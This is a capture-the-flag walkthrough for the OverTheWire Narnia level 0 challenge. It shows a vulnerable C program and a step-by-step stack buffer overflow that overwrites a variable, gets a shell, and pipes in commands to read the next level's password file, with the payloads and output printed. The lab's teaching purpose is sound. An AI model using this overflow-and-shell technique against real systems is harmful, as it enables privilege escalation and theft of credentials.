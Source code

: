 <h1>Narnia 0 &#x2192; Narnia 1 </h1>

<p>There is no information for this level, intentionally.</p>

<h1>Solution</h1>

```bash
user@host:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0
```

As we can read from the game description: `PASSWORDS for each level are stored in /etc/somegame_pass/`. Let us start there. After a few tries it is clear we can't get any information on the files containing the passwords for other levels.

```bash
narnia0@narnia:/etc/narnia_pass$ file narnia0
narnia0: ASCII text
narnia0@narnia:/etc/narnia_pass$ file narnia1
narnia1: regular file, no read permission
```

In the `/` directory a folder named `narnia` exists.

```bash
narnia0@narnia:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: narnia0
buf: narnia0
val: 0x41414141
WAY OFF!!!!
```

The program `narnia0.c` goes (excluding the licensing information):

```c
narnia0@narnia:/narnia$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

So no matter what we enter into the program, the buffer is never compared to anything. However, the buffer is 20 bytes long but we read 24 bytes into it. Since `scanf` reads the input and puts the memory on the stack, it might overwrite the `val` variable. This is what we wiull try to exploit.

`0xdeadbeef` is the hexadecimal representation of the 32-bit number 3735928559, so it is 4 bytes long. Let's see if we can feed 20 bytes into the program AND something like this number. Lert us start with investigating whether our intuition is right.

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 000000000000000000001234
val: 0x34333231
WAY OFF!!!!
```

This is an interesting result. The first 20 `0` characters are read into the buffer, and the last four bytes are read into `val`, but they are oriented backwards! So if we orient the characters backwards in the input it will be read forwards. This is exactly the buffer overflow that `scanf` causes.

Let's automate this a bit. We have `python` in our path:

```bash
narnia0@narnia:/narnia$ python --version
Python 2.7.13
```

We can hence create these strings without having to count the `0`'s by feeding a small program as a string and having it execute, piping the output into the `narnia0` program.

```bash
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"'
00000000000000000000feebdaed
```

Let's try with what we know so far!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000feeb
val: 0x62656566
WAY OFF!!!!
```

We can see that feeding the string as ASCII text is not satisfactory. If we inspect the feedback, we can see that `val` is now equal to `0x62656566`, which is hexadecimal for the word `beef`. So in some way, only the last part of the word made it in. Let's try feeding in bytes instead

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xde\xad\xbe\xef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ޭ��
val: 0xefbeadde
WAY OFF!!!!
```

We can almost read `deadbeef`! We just have to remember that the bytes are read pair-wise!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

This works! But nothing seems to happen...

If we look at the source code, we casn see that two things happen once we set `val` to `deadbeef`:

    1. setreuid90 sets the user id of the calling process (which is our terminal)
    2. A new shell is started by system(), but it exits as it does not get any input

So we just need to feed it more commands! That is simple by using parenthesis:

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo id;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```

Now just read the password from the folder.

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo cat ../etc/narnia_pass/narnia1 ;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
efeidiedae
```

[narnia level 0](0.md)
[narnia level 2](2.md)
